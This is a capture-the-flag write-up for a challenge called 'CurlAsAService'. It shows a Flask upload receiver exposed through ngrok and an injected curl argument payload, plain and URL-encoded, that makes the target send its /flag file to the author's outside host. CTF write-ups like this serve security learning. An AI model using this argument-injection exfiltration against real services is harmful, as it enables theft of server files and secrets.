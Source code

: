 # CurlAsAService

### CHALLENGE DESCRIPTION

cURL As A Service or CAAS is a brand new Alien application, built so that humans can test the status of their websites. However, it seems that the Aliens have not quite got the hang of Human programming and the application is riddled with issues.



> I approached a black box testing on the challenge



## Website

<figure><img src="../../../.gitbook/assets/image (8) (1).png" alt=""><figcaption><p>curl</p></figcaption></figure>

* A simple curl request that will get the frontend src code
* There are many ways to solve this challenge
* I will make a flask app that handles put request and tell curl to put the file on my app



### Flask app

```python
from flask import Flask, request

app = Flask(__name__)

@app.route('/upload', methods=['PUT'])
def upload_file():
    uploaded_file = request.files['file']

    if uploaded_file:
        file_path = f"./uploads/{uploaded_file.filename}"
        uploaded_file.save(file_path)

        return f"File '{uploaded_file.filename}' uploaded successfully.\n"
    else:
        return "No file received in the request.\n", 400

if __name__ == '__main__':
    app.run(debug=False)
```



* After this start ngrok on port 5000
* run the app.py file

### Payload

```bash
-X PUT -F "file=@/flag"  https://f9e2-122-177-22-17.ngrok-free.app/upload
```

* breakdown:
  * **-X PUT** : this will tell curl what http method to use
  * **-F "file=@/flag"** : This will tell curl what file to upload (-F is basically to mention we are using file)
* Turn on burspsuite and url encode the above payload

<figure><img src="../../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

```bash
-X+PUT+-F+"file%3d%40/flag"++https%3a//f9e2-122-177-22-17.ngrok-free.app/upload
```

## pwned

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>
